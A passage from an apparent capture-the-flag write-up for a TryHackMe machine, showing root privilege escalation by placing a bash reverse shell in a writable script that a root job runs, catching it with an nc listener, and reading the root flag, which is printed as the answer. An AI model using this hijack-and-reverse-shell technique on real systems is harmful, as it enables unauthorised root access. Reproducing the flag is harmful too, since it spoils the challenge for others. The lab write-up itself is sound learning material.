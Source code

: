 ```
```

&nbsp;

### What are the contents of root.txt?
- Let's check what's inside the `scripts/` directory.
```
lennie@startup:~$ cd scripts/
lennie@startup:~/scripts$ ls
planner.sh  startup_list.txt
```
- We can check what the `planner.sh` file is doing using `cat`.
```
lennie@startup:~/scripts$ cat planner.sh 
#!/bin/bash
echo $LIST > /home/lennie/scripts/startup_list.txt
/etc/print.sh
```
- We can see that it execute the `/etc/print.sh` file.
- Let's check that file out.
```
lennie@startup:~/scripts$ ls -la /etc/ | grep "print.sh"
-rwx------  1 lennie lennie    25 Nov 12  2020 print.sh
```
- So we can execute the `print.sh` file as `lennie`.
- But before that let's modify it to get a reverse shell.
- We can get a bash reverse shell from Revshells.com.

![9](https://github.com/Knign/Write-ups/assets/110326359/758e26e5-4b82-4d06-98b0-8ae390c79abe)

- The IP address is our `tun0` address.

![10](https://github.com/Knign/Write-ups/assets/110326359/8ee962c7-0491-46ec-9b75-33e86dac1652)

- After saving the changes, we can listen on port `9998` and  run the `planner.sh` file.
```
$ nc -lvnp 9998
listening on [any] 9998 ...
connect to [10.17.48.138] from (UNKNOWN) [10.10.244.57] 43162
sh: 0: can't access tty; job control turned off
#
```
- Let's get the root flag.
```
# ls
root.txt
# cat root.txt  
THM{f963aaa6a430f210222158ae15c3d76d}
```
### Answer
```
THM{f963aaa6a430f210222158ae15c3d76d}
```
